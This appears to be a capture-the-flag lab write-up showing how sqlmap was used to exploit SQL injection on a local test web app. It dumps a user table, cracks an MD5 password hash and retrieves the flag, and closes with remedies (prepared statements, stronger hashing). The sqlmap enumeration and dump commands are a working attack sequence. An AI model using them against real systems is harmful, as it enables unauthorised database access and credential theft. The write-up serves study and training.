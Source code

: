 # Brute_Force
Brute Force for who, brute force for what, we don't need brute force. What we do need on the other hand is use sqlmap and get usernames and passwords.

## Example
This parts highlights a really nice sqlmap feature. Throught same means we can be able to retrieve a table in the database that has all the usernames and their passwords. Sqlmap decrypts the passwords for us(Brute Force).

## Commands
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a>
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dbs
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --tables -D Member_Brute_Force
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --columns -D Member_Brute_Force -T db_default
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dump -D Member_Brute_Force -T db_default

> options [Y, Y, D, N];

### usernames with cracked passwords
* root : 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)
* admin: 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)

If we login using these in <a href="http://192.168.43.251/index.php?page=signin">login</a> we get our flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

## Remedy
* Again preapred statements would have prevented us form getting this sort of information
* However a much stronger ecryptiion model other than md5 five which is really unsafe, would have made it harder to decryt these passwords :( .

## Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc